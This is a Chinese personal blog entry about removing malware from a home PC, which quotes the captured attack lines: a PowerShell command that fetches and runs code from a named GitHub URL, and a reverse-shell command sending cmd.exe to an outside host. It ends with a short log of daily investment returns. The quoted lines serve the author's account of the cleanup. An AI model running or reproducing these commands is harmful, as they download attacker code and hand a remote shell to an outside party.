 faint，电脑好像真的中招了，早上找到隐藏在cookies目录的两个脚本，看起来就不是好鸟，对应的文件昨天手贱执行过了，不知道会造成啥影响。。。

目前定位到两个目录打不开，按大模型建议准备重启到安全模式下试一试。。。


搞了一上午终于搞定了。至少全屏打游戏时不再弹窗了。

主要是通过弹出的窗口中对应的`c:\users\用户名\cookies\ini.cmd`这个文件入手。

一开始在资源管理器 `c:\users\用户名` 目录下根据找不到`cookies`目录，但在cmd命令行中是可以通过`cd`命令进入的。

还好早年玩dos的一点知识还在，使用`dir /a`命令查看，发现此目录下的`cookies`目录是个链接，真实的目录在另外一个地方。通过查看到的新的地址终于打开了这个目录，看到了这两个文件。

一个是`ini.cmd`，另一个是`init.cmd`。打开看看里面的内容都很像，指向了两个目录，一个是`c:\programdata\AUX..`，一个是`c:\programdata\CON..`。

不出意外，这两个目录能看到，但打不开、进不去也删除不掉。。。

问了下大模型，用一种第一次了解到的命令把这两个目录删除了。

```
rd /s /q "\\?\C:\ProgramData\AUX.."
rd /s /q "\\?\C:\ProgramData\CON.."
```

大模型给的说法是通过长文件名格式。其实并不理解，但确实好用。删除掉了。感觉稳了，打开游戏测试，玩了10分钟以为没事，结果下一秒就被打脸了又弹窗了。。。不过这次明显弹窗的内容有变化了。

于是打开windows事件查看器，幸运地查看到了powershell的事件，有重大发现。直接看到了如下关键脚本

```
HostApplication=powershell.exe -NoProfile -ExecutionPolicy Bypass -Command $c = (Invoke-WebRequest 'https://raw.githubusercontent.com/githab0/0/0/0/configr' -UseBasicParsing).Content.Trim(); $exe, $args = $c -split ' ', 2; ([WMIClass]'Win32_Process').Create($exe + ' ' + $args)
```

根据github地址直接查找这个`githab0`账户。里面只有一个名字叫`0`的项目。

https://github.com/githab0/0/tree/0/0

进入多层目录后看到了上面脚本里的文件，里面只有一行脚本：

```
C:\ProgramData\NUL..\ShellExperienceHost.exe --ssl apap.app 443 -e cmd.exe
```

对了，刚才在删除`AUX..`与`CON..`两个目录时，在同层目录下发现有个`NUL..`的目录一样打不开进不去删不掉，于是用相同的长文件名格式删除掉了。

所以后面弹窗才会变化，因为这个目录被我删除了，上面这行脚本执行了个寂寞，于是再度弹窗。。。提示`install.exe`找不到。。。

这都是什么鬼，哪来的`install.exe`？

想破头也想不到这个`install.exe`谁来调用的，既然是找不到，应该就是刚刚删除的那三个目录里。

看了任务管理器和启动服务列表，没看到哪个有问题的样子。。。

问了大模型，也没有头绪。于是在google上搜索了下上面发现的github项目`githab0/0`

也说不出为啥搜索这个关键字，可能是想看看有没有其他受害者的留言吧。

搜索结果给了我惊喜，第二个结果地址如下：

https://raw.githubusercontent.com/githa0/0/0/0/confrus

是不是和刚才的项目很像？看名字应该是一个人的不同账号，`githab0` vs. `githa0`，是不是很像。

这个链接对应的脚本一看就豁然开朗了，虽然期间有些内容，比如sc和WMI命令我就不太懂。但可以借助大模型啊~

有了这个脚本再结合大模型的帮助，很快就将这个恶意软件在电脑中埋的雷都排干净了。

多少会有些出入，有些脚本里看到的东西没有找到，不知道是不是昨天杀毒软件删除过一些？

清理干净后重启，打开游戏，再没有出现弹窗了~

总算解决了，就是不知道完不完美。

顺手在github上把这两个账号都举报了，也不知道官方如何处理。

看了下 `githa0`账号下还有好几个项目，估计都不是什么好东西。看了下几个脚本，感觉应该是挖矿的，可惜没有追查到具体的挖矿信息。猜测应该是硬编码在植入的exe文件中，并没有放在脚本里。

回想起来应该是前几天想下载一个bit软件，在网上找到的那个程序被加挂了。。。




# 投资


上午小红。不过一直也没空看，忙着杀毒了。。。

> 本日	0.22%	本周	1.70%	本月	0.90%	本年	0.90%


收盘更进一步。年度浮上水面1cm了 :joy:

> 本日	0.46%	本周	1.95%	本月	1.15%	本年	1.15%

小调整了下表格，把银河账户的盈亏单独调出来看看，确实要稍好一点点，其他几个账户以基金套利为主，外加小仓位网格，看来都不如可转债呀。

> 本日	0.48%	本周	2.34%	本月	1.36%	本年	1.36%


